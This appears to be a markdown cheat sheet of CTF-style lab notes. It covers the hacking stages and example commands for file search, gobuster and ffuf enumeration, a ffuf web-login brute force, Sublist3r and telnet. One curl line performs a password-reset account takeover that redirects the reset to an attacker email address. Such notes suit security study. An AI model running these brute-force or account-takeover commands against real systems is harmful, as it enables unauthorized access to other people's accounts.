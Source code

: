 ## General Notes

### Hacking Stages
1. *Information Gathering* - Conducting open-Source intelligence (OSINT), social engineering, and darkweb research.
2. *Enumeration/Scanning* - Discovering running hosts, services and applications that could have vulnerabilities.
3. *Exploitation* - Leveraging the vulnerabilities using research, metasploit or other tool to gain a foothold on the system.
4. *Privilege Escalation* - Expand access by getting root or other method of accessing the desired objective beyond the current user account/permission set.
5. *Post-exploitation* - Pivoting to other targets, gaining additional information as a privileged user, covering tracks and reporting the results

### Knowledge Tidbits
* `find` and `locate` are useful Linux tools for finding files.
  
> `find -name "flag*"` will find all files that begin with the text flag.

> `find /usr -type d -name "secret"` will find all directories in \usr that are named secret.

* ffuf, dirb, and gobuster are web discovery automation tools that take common wordlists. They can discover directories, files, usernames, or subdomains.
> For example, `gobuster dir --url http://MACHINE_IP/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt` will enumerate the directories/files on the target web server.

> `ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists` will return a list of valid usernames if the site provides a message.

> `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200` will brute force a web login.

* curl is a flexible web requesting tool for all kinds of purposes
> For example, `curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'` will reset an account specifying the hacker's email address.

* Sublist3r is a Python subdomain discovery tool.
> For example, `python sublist3r.py -b -d example.com` will enumerate subdomains using the bruteforce module.

* Telnet can work with cleartext application protocols such as FTP, HTTP, IMAP, POP3, IMAP, and SMTP.
> For example, `telnet 10.10.194.41 110` will allow you to connect to POP3 server.
